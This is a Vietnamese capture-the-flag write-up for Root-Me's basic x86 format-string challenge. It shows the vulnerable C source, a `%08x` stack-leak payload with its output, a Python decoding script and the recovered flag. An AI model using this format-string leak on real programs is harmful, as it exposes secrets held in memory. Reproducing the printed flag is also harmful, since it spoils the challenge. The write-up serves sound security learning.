 # Co-che-hoat-dong-cua-ma-doc - challenge 3 CTF Write up
```html
ELF x86 - Format string bug basic 1 : ssh -p 2222 app-systeme-ch5@challenge02.root-me.org
```

![image](https://user-images.githubusercontent.com/64201705/119268818-ced46980-bc1e-11eb-9a74-16c4bf74d99d.png)

## Write up

```Text
Sau khi SSH vào server thì ta dùng lệnh cat để in code trong file source code ra
```
Ta sẽ được như này:
![image](https://user-images.githubusercontent.com/64201705/119268828-deec4900-bc1e-11eb-8c25-d4800747e8f9.png)

```C
#include <stdio.h>
#include <unistd.h>

int main(int argc, char *argv[]){
        FILE *secret = fopen("/challenge/app-systeme/ch5/.passwd", "rt");
        char buffer[32];
        fgets(buffer, sizeof(buffer), secret);
        printf(argv[1]);
        fclose(secret);
        return 0;
}
```
Rõ ràng ta thấy để vào in đươc nội dung file passwd ra bằng một user nào đó đang dùng tại máy chủ này thì ta sẽ cần in nội dung của nó nằm trong stack được đọc bởi câu lệnh 
``` FILE *secret = fopen("/challenge/app-systeme/ch5/.passwd", "rt"); ```
Do buffer có 32 bytes nên đầu tiên ta sẽ chạy thử một đoạn payload xem chương trình có in ra các giá trị nằm trong stack hay không:
![image](https://user-images.githubusercontent.com/64201705/119269273-00e6cb00-bc21-11eb-9cf0-b78e53086928.png)
Ta thấy nó in ra các giá trị nằm trong stack:
```Bash
app-systeme-ch5@challenge02:~$ ./ch5 `python -c "print '%08x,'*32"`
00000020,0804b160,0804853d,00000009,bffffc9b,b7e1b589,bffffb74,b7fc3000,b7fc3000,0804b160,39617044,28293664,6d617045,bf000a64,0804861b,00000002,bffffb74,bffffb80,e5789100,bffffae0,00000000,00000000,b7e03f21,b7fc3000,b7fc3000,00000000,b7e03f21,00000002,bffffb74,bffffb80,bffffb04,00000001,
```

Hệ nhị phân ELF được cung cấp cho chúng ta là 32 bit. Kiến trúc X86
Do đó, tất cả các byte nhận được cấp cho chúng ta từ ngăn xếp đều ở dạng đảo ngược - Little Endian.

Ta sẽ đảo ngược các giá trị trên bằng code Python:
```Python
bytes = [ "00000020", "0804b160", "0804853d", "00000009",
          "bffffcce", "b7e1c4a9", "bffffba4", "b7fc4000",
          "b7fc4000", "0804b160", "39617044", "28293664",
          "6d617045", "bf000a64", "0804861b", "00000002",
          "bffffba4", "bffffbb0", "119eaa00", "bffffb10",
          "00000000", "00000000", "b7e04e81", "b7fc4000",
          "b7fc4000", "00000000", "b7e04e81", "00000002",
          "bffffba4", "bffffbb0", "bffffb34", "00000001" ]

bytes2 = []

for y in bytes:
    little_endian = y[6:] + y[4:-2] + y[2:-4] + y[0:-6]
    bytes2.append(little_endian)
   

for x in bytes2:
    print x.decode('hex'),
```
```https://paiza.io/projects/OFH3jVsedodVH4xQtU5ehg?language=python```
Ta sẽ dùng trang này để chạy code trên:
Và kết quả là:
```bash
  `� =� 	 ���� ��� ���� @�� @�� `� Dpa9 d6)( Epam d
� �  ���� ���� �� ���   �N� @�� @��  �N�  ���� ���� 4��� 
```
Như vậy flag hay password là:

## Dpa9d6)(Epamd



